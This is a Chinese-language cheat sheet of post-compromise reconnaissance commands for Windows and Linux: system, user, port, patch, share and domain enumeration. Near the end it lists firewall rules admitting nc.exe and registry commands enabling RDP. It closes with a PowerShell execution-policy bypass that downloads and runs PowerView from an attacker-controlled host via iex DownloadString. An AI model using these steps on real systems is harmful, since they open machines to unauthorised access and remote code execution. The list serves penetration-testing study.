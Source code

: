 
## 查看网络配置
Windows
```
ipconfig /all
```

Linux
```
ifconfig
```

## []()查看操作系统信息
Windows
```
systeminfo | findstr OS
```
Linux

```
uname -–a 或 cat /proc/version
```

## []()查看安装的软件及版本

Windows

```
wmic product get name,version
```

Linux

```
dpkg –l ：列出所有安装的文件和库
dpkg –l 软件名称 ：列举安装的版本
```

## []()查看本机服务信息

Windows

```
wmic service list brief 或 net start
```

Linux

```
service --status-all
```

## []()查看进程列表

Windows

```
tasklist
```

Linux

```
ps –aux 或 ps –ef
```

## []()查看启动信息

Windows

```
wmic startup get command,caption
```

Linux

```
dmesg
```

## []()查看任务计划

Windows

```
at 或 schtasks
```

Linux

```
crontab -l
```

## []()查看开机时间

Windows

```
net statistics workstation
```

Linux

```
cat /proc/uptimedate -d "$(awk -F. '{print $1}' /proc/uptime) second ago" +"%Y-%m-%d%H:%M:%S"
cat /proc/uptime| awk -F. '{run\_days=$1 / 86400;run\_hour=($1 %86400)/3600;run\_minute=($1 % 3600)/60;run\_second=$1 % 60;printf("系统已运行：%d天%d时%d分%d秒",run\_days,run\_hour,run\_minute,run\_second)}
```

## []()查看用户列表

Windows

```
查看本即用户列表：net user
查看本地管理员信息：net localgroup administrators
查看当前在线用户：query user || qwinsta
```

Linux

```
查看所有用户： cat /etc/passwd
查看用户组： cat /etc/group
```

## []()查看端口列表

Windows

```
netstat –ano
```

Linux

```
netstat –antpl
```

## []()查看补丁列表

Windows

```
systeminfo
wmic qfe get caption,description,hotfixid,installedon
```

## []()查看本机共享列表

Windows

```
net share
wmic share get name,path,status
```

## []()查看路由表及ARP信息

Windows

```
route print
arp -a
```

Linux

```
arp –a
route
```

## []()查看防火墙相关配置

```
• 查看防火墙配置： netsh firewall show config
• 打开防火墙配置： netsh advfirewall set allprofiles state on
• 关闭防火墙配置： netsh advfirewall set allprofiles state off
• 修改防火墙配置：允许程序入站
        netsh advfirewall firewall add rule name= "pass nc" dir=in action=allow program="C:\\nc.exe"
• 允许指定程序出站 ：
        netsh advfirewall firewall add rule name= "out nc" dir=out action=allowprogram="C:\\nc.exe"
• 允许RDP(3389)端口放行： 
        netsh advfirewall firewall add rule name= "RemoteDesktop" protocol=TCP dir=in localport=3389 action=allow
```

## []()查看注册表参数

```
REG QUERY 命令参数（注册表）
```

## []()查看远程连接情况

```
• 查看远程连接端口是否更改：很多时候RDP协议端口容易被更改
        reg query "HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\TerminalServer\\WinStations\\RDP-Tcp" /v PortNumber
• 打开远程桌面：
        REG ADD HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal" "Server /vfDenyTSConnections /t REG\_DWORD /d 0 /f
• 关闭远程桌面：
        REG ADD HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal" "Server /vfDenyTSConnections /t REG\_DWORD /d 1 /f
• 查看远程桌面开启状态：
        REG query HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal" "Server /vfDenyTSConnections /t REG\_DWORD
```

## []()查看当前用户权限

```
whoami
```

## []()查看域信息

```
• ipconfig /all ：查看网关地址、DNS的IP地址、域名、本即是否DNS服务器处于一个网段
• nslookup +域名 ：解析出的域名服务器的IP地址和DNS服务器IP是否一致；
• systeminfo ：确定用户的登陆域
• 判断是否在主域： net time /domain
• 查询当前登录域及登录用户信息： net config workstation
```

## []()绕过powershell本地权限

能上传文件到服务器但没有权限不够 powershell的用法

```
powershell.exe -executionpolicy bypass "import-module  .\powerview.ps1;get-netuser"
```

不能上传脚本到目标机器

```
1，能够访问到脚本
2，kali开启apche服务
3，文件复制到服务器根目录
4，chmod 777 /目录    给与最高权限
powershell.exe -exec bypass -nop -c "iex(New-ObjectNet.webClient).DownloadString('http://192.168.11.101/powerview.ps1');get-netuser"
```


